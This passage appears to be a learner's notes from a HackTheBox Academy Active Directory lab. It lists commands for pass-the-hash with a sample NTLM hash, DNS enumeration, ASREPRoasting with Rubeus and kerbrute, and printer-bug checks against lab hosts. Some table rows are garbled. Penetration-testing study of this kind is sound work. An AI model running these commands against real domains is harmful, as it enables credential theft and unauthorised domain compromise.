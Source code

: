     this will give us the NTLM hash

#### **Confirming Admin Access to the Domain Controller**

* `dollarboysushil@htb[/htb]$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf`

## **Miscellaneous Misconfigurations**

## **Enumerating DNS Records**

We can use a tool such as [adidnsdump](https://github.com/dirkjanm/adidnsdump) to enumerate all DNS records in a domain using a valid domain user account.

*   `dollarboysushil@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`

    we can use `-r` flag to resolve unknown records

    data will be saved in `records.csv`

## **ASREPRoasting**

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled.

First , search for account with Donot\_req\_preauth

* `PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`
* `PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` or using kerbrute
* `dollarboysushil@htb[/htb]**$** kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

| Command                                                           | Description                                                                                                                                          |
| ----------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------- |
| Import-Module .\SecurityAssessment.ps1                            | Used to import the module Security Assessment.ps1. Performed from a Windows-based host.                                                              |
| Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL | SecurityAssessment.ps1 based tool used to enumerate a Windows target for MS-PRN Printer bug. Performed from a Windows-based host.                    |
| adidnsdump -u inlanefreight\forend ldap://172.16.5.5              | Used to resolve all records in a DNS zone over LDAP from a Linux-based host.                                                                         |
| adidnsdump -u inlanefreight\forend ldap://172.16.5.5 -r           | Used to resolve unknown records in a DNS zone by performing an A query (-r) from a Linux-based host.                                                 |
| Get-DomainUser \*                                                 | Select-Object samaccountname,description                                                                                                             |
| Get-DomainUser -UACFilter PASSWD\_NOTREQD                         | Select-Object samaccountname,useraccountcontrol                                                                                                      |
| ls \academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts            | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |

## Why So Trusting? (Golden Ticket)

## Domain Trusts Primer


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist